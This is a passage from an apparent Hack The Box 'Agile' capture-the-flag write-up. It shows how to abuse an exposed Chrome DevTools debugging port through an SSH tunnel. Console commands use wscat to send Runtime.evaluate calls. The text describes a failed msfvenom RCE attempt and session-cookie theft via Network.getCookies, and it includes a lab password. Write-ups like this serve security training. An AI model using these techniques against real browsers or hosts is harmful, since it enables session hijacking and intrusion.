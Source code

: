 In kali:

```console
root@kali:~/htb/Machines/Agile# ssh -L 41829:127.0.0.1:41829 -N corum@superpass.htb  # enter 5db7caa1d13cc37c9fc2
corum@superpass.htb's password:
```

I try `Runtime.evaluate` method:

```console
root@kali:~/htb/Machines/Agile# curl localhost:41829/json
[ {
   "description": "",
   "devtoolsFrontendUrl": "/devtools/inspector.html?ws=localhost:41829/devtools/page/443FEBFF301C2EA07723B7374A0E69B6",
   "id": "443FEBFF301C2EA07723B7374A0E69B6",
   "title": "SuperPassword 🦸",
   "type": "page",
   "url": "http://test.superpass.htb/",
   "webSocketDebuggerUrl": "ws://localhost:41829/devtools/page/443FEBFF301C2EA07723B7374A0E69B6"
} ]


root@kali:~/htb/Machines/Agile# wscat --no-color --connect ws://localhost:41829/devtools/page/443FEBFF301C2EA07723B7374A0E69B6
Connected (press CTRL+C to quit)
> {"id":1234,"method":"Runtime.evaluate","params":{"expression":"document.documentElement.outerHTML"}}
< {"id":1234,"result":{"result":{"type":"string","value":"<html lang=\"en\"><head>(snip)<title>SuperPassword \ud83e\uddb8</title>(snip)</html>"}}}
```

Got it.
Next, I thought I could do RCE, so I generated a javascript payload in msfvenom and ran it, but it failed because `global is not defined` error occured.

<details><summary>cdp-exploit.py: trying <code>Runtime.evaluate</code> RCE</summary></details>

<details><summary>Execute this Python script:</summary></details>

So looking for other methods that could be exploited, I found the [`Network.getCookies`](https://chromedevtools.github.io/devtools-protocol/tot/Network/#method-getCookies) method, which can retrieve cookies.
Rewriting Python script to use this method and execute it.

<details><summary>cdp-exploit.py: trying <code>Network.getCookies</code></summary></details>

<details><summary>Execute this Python script:</summary></details>

I got `session` Cookie in `test.superpass.htb` domain.

```console
root@kali:~/htb/Machines/Agile# curl -D- http://superpass.htb/ -H "Host: test.superpass.htb"
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 04 Aug 2023 23:30:24 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: http://superpass.htb

<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```